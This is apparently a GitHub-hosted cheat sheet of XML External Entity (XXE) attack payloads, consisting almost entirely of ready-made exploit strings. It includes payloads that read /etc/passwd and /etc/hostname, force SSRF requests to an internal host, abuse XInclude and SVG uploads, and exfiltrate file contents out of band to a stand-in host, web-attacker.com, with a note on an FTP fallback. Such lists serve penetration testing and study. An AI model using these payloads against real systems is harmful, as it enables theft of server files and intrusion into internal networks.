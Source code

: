 <h3> Payloads For XXE Vulnerability </h3>

XXE to read local files:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

XXE to SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

XXE via XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

XXE via file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="13" x="28" y="28">&fetch;</text>
</svg>
```

XXE parameter entities

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Blind XXE to exfiltrate data out of bound

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

```P.S This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. ```
